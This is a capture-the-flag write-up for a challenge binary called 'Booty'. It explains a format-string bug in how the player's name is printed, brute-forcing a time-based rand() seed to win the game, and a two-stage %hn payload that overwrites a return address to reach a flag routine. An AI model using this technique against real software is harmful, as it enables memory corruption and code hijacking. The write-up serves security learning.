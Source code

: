 Exploitation: Booty
--------------------------------

The first look at the binary, we see that it is a turned based pirate fighting game where each player has multiple actions to choose from. Looking into the binary, we notice that once we reach level 9, we are greated with the message from the following print:

```
	...
    level_info->level_number = 0;
    printf(":: HAIL THE NEW PIRATE KING, ");
    printf(level_info->user_name);
    printf("\n\n");
    printf("%p marks the spot of your treasure!", &arg);
    ...
```

We notice that there is a possible format string attack here. We also notice that there is a routine at 0x80487C0, which reads and prints the flag. Fortunately, we are asked for our name before the start of the game, so we can put in the payload.We note that when we win, we also get an address leak to the stack, which helps us in creating a payload. 

Beating the game.
--------------------------------

Therefore, we go ahead to figure out a way to beat the game. There are no obvious buffer overflows, but we notice that the way the enemy moves are determined is a time(0) seed and a call to rand(). Therefore, the way we beat the game is to play it for several rounds, and brute force the initial time seed by searching the current time +/- 1000 seconds. This gives us the seed, which we can then predict all future enemy moves and play optimally. 

Payload 
--------------------------------

We want a payload to be:

```
giveflag = 0x80487C0
ownoffset = 30
payload = retaddr + '%0'+str((giveflag&0xffff)-4)+'d%'+str(ownoffset)+'$hn'
```

However, there is some input validation for the user name where the first '%' is replaced by a '\0'. Thankfully, there are several other issues that we can take advantage of. First, using a name without a '%' does not have proper null termination, and secondly, we are allowed to change our name and play the game again when we win.

Therefore, we can set our first payload to be:

```
first_name = '%%%%' + '%0'+str((giveflag&0xffff)-4)+'d%'+str(ownoffset)+'$hn'

```

and our second payload is just the return address which can be calculated after leaking the address from the first round.

```
# 4 bytes
second_name = retaddr
```

Since it isn't null terminated, the first 4 bytes will reaplce with the initial '%%%%' and the result string will be:

```
retaddr + '%0'+str((giveflag&0xffff)-4)+'d%'+str(ownoffset)+'$hn'                                 
```

which is exactly the payload we want, and we get the flag!

